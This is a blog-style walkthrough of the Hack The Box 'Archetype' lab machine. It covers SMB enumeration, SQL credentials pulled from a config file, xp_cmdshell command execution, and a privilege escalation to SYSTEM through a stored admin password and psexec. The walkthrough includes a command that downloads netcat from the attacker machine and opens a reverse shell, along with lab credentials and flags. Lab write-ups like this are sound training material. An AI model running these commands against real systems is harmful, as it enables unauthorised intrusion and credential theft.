 ```yaml
---
title: 'HTB Starting Point - Tier 2'
description: 'Hack the Box Starting Point'
pubDate: 'Dec 13 2024'
heroImage: '/blog-placeholder-1.jpg'
---
```


Topics covered:  
* XXE
* IDOR
* Log4J
* Cookie manipulation
* PrivEsc
* LXD for privileged filesystem access


## Archetype
*MSSQL, SMB, PS1, RCE*

**Task 1**  
Which TCP port is hosting a database server?

```bash
kali$ nmap -sV $TARGET --min-rate=2000

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Looks like the answer is 1433.

From the list above:
* 135: RPC. (Low level and insecure network comms to invoke a remote procedure)
* 139: Typically used by SMB to communicate with old devices. This is for SMB over NBT (NetBIOS over TCP/IP)
* 445: SMB server

This [stack overflow answer](https://superuser.com/a/694480) provides a great summary of the relationship between SMB and NetBIOS. In short: SMB and NetBIOS are different protocols, however to support legacy Windows systems, SMB can use the NetBIOS API to talk with older machines. See the diagram in the link.


**Task 2**  
What is the name of the non-Administrative share available over SMB?

```bash
kali$ smbclient -L $TARGET -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Looks like it is `backups`. (N.b. admin shares typically have a `$` suffix)


**Task 3**  
What is the password identified in the file on the SMB share?

```bash
kali$ smbclient //$TARGET/backups

smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
		5056511 blocks of size 4096. 2522480 blocks available

smb: \> print prod.dtsConfig
NT_STATUS_ACCESS_DENIED opening remote file prod.dtsConfig

smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

No permissions were allowed to print the file, however I could use get instead. By reading the file contents, we find this spicy connection string with these credentials `ARCHETYPE\sql_svc; M3g4c0rp123`

```xml
 <ConfiguredValue>
    Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;
</ConfiguredValue>
 ```


**Task 4**  
What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

Impacket is designed to deal with network packets, "providing low-level programmatic access". Looking through the [repo](https://github.com/fortra/impacket/tree/master), I can see `mssqlshell.py` and `mssqlattack.py` example files. The attack utilises the shell script. (N.b. These are classes, not scripts! :facepalm:). Looks like the script I'm after is `mssqlclient`. In Kali, this is already installed and on the path. It can be executed by `impacket-mssqlclient`.

```bash
kali$ impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@$TARGET -windows-auth
```

> We need the `-windows-auth` flag because the account belongs to the machine, not to the SQL service. As per the help menu: "this flag is specified to use Windows Authentication". It's like when you run a DB on your windows machine - there is often a default provisioned account specific to SQL, alternatively, you can authenticate to the DB via your machine/domain controller.

**Task 5**  
What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

[`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)


**Task 6**  
What script can be used in order to search possible paths to escalate privileges on Windows hosts?

`winpeas` apparently :shrug:


**Task 7**  
What file contains the administrator's password?

At this point, I can execute commands via `xp_cmdshell`. It seems pertinent to create a reverse shell. This will allow us a more stable connection and remove the need to type `xp_cmdshell` on every line. From the writeups I researched online, it seems like the answer to this question only comes by solving the next two tasks (including obtaining a reverse shell, looking for privesc opportunities, and the like). After all of that, the answer is `ConsoleHost_History.txt` in the `~/AppData/Roaming/...PSReadline/` folder


**Task 8**  
Submit user flag

```
# Kali
kali$ python3 -m http.server 80 &
kali$ nc -lvnp 443

# mssql client
mssql> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget 10.10.15.212/nc.exe -outfile nc.exe; .\nc.exe -e cmd.exe 10.10.15.212 443"

# Kali netcat session (reverse shell)
C:\Users\sql_svc\Downloads> type ..\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3
```

**Task 9**  
Submit root flag

Now that we have a reverse shell, we can download winPEAS from our attacking machine

```
C:\Users\sql_svc\Downloads> powershell -c wget http://10.10.15.212/winPEASx64.exe -outfile winPEASx64.exe
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Looking through the output of winPEAS, we can take a look for anything interesting that we could easily leverage. Unfortunately for me, unlike the writeup for the box, winPEAS did not suggest the `ConsoleHost_History.txt` file. In any case, looking at the file, we find some credentials, as seen below. To gain admin, we can use the `runas` command

```cmd
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

From here, I tried to make use of a `runas` command, however it would not let me type in a password. As a result, I instead used impacket's `psexec` script.

```
kali$ impacket-psexec administrator@$TARGET

Password: ***

C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```